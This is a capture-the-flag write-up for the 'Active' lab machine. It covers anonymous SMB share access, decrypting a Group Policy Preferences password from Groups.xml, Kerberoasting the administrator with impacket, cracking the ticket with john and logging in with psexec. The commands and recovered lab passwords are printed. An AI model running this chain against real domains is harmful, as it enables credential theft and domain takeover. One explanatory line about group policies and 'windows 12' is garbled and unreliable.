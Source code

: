 MACHINE NAME: Active
MACHINE IP: 10.10.10.100

There are a number of open ports on this machine, including some interesting ones, 445,88 and 139.

DNS is open, so let's do a dnsrecon to see if there's anything interesting.

dnsrecond -d 10.10.10.100 -r 10.0.0.0/8

Wee'll also havea look at port 445, for any SMB related info. Let's use the safe smb enum script to enumerate this port.

nmap --script safe -p 445 10.10.10.100 

Nothing much from the enum script, it fails to execute.

Next, let's list the shares; smbclient -L //10.10.10.100

This supports anon login, no need for the password. We can see the shares listed. 

We can also use smbmap: smbmap -H 10.10.10.100

The Replication dir seems to be accessible, read only though. We shall thus try to mount and see what it's here using smbmap.

smbmap -R Replication -H 10.10.10.100

Alt.

smbclient //10.10.10.100/Replication
prompt OFF
recurse ON

we can download all the files; mget .

Groups.xml seem interesting, this is where all the group policies where local account policies are stored. Can't be used to push updates to endpoints in a windows environment, before windows 12.

smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q

This will download the file to our local syetem. There's an encrypted password.

gpp-decrypt <hash>

passwd<svc_tgs>: GPPstillStandingStrong2k18

impacket to the rescue	

GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100

We have 4 users on this box.

It looks like the C:\users\ directory, just as I had hoped.

smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18                                                                                                         
Kerberoasting

Kerberos is a protocol for authentication used in Windows Active Directory environments (though it can be used for auth to Linux hosts as well).

There's an interesting read here https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin(1).pdf


GetUserSPNs.py -request active.htb/SVC_TGS

this gets us the Admin kerberos ticket.

We'll save this file and use john to crack it.

And voila! we got the administrator password : Ticketmaster1968

Let's run psexec.

psexec.py administrator@active.htb



